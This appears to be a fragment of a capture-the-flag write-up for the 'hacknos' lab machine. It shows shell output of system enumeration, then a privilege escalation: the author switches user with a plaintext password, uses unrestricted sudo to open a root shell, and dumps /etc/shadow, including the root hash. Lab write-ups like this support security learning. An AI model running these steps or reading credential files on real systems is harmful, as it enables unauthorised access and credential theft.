 ### systeminfo

```shell
www-data@hacknos:/$ uname -a
uname -a
Linux hacknos 5.3.0-24-generic #26-Ubuntu SMP Thu Nov 14 01:33:18 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
www-data@hacknos:/$ cat /etc/*-release
cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=19.10
DISTRIB_CODENAME=eoan
DISTRIB_DESCRIPTION="Ubuntu 19.10"
NAME="Ubuntu"
VERSION="19.10 (Eoan Ermine)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 19.10"
VERSION_ID="19.10"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=eoan
UBUNTU_CODENAME=eoan
```

## Root

```shell
www-data@hacknos:/$ su recon
su recon
Password: Security@hackNos

recon@hacknos:/$ sudo -l
sudo -l
[sudo] password for recon: Security@hackNos

Matching Defaults entries for recon on hacknos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User recon may run the following commands on hacknos:
    (ALL : ALL) ALL
recon@hacknos:/$ sudo bash -i
sudo bash -i
root@hacknos:/# whoami
whoami
root
root@hacknos:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@hacknos:/# hostname
hostname
hacknos
root@hacknos:/# date
date
Sat 01 Jan 2022 11:15:41 AM UTC
root@hacknos:/# cat /etc/shadow
cat /etc/shadow
root:$6$81XnMBZhj4s7PUbZ$oXgkpES1EwkWwk/47iHKsCPxC6mlaG2lqPj2K2dcqxHd/n5skrZ/KTEsIWP5AEdsRFjd.h6oUXZK55QSbi7Lh.:18271:0:99999:7:::
daemon:*:18186:0:99999:7:::
bin:*:18186:0:99999:7:::
```